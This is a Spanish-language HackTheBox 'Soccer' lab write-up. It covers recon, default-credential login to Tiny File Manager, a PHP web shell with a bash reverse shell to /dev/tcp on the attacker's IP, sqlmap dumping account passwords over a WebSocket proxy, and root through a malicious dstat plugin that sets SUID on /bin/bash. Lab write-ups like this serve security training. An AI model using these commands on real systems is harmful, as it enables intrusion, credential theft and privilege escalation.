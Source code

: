 ```yaml
---
layout: single
title: Soccer - HackTheBox
excerpt: " This CTF focuses on success through enumeration. "
date: 2023-06-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-soccer/soccer.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - ssh
  - suid
---
```


This CTF focuses on success through enumeration.

# Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9091 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```bash
$gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```bash
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socket, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

```bash
$python3 exploit.py
```

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

```bash
$ssh player@10.10.103.124
```

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

```bash
$ find -name doas 2>/dev/null l grep doas
```

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```bash
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```bash
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.



# Holaaaaaaaaaaaaaaa


![](../images/soccer/DedSec_logo.webp)
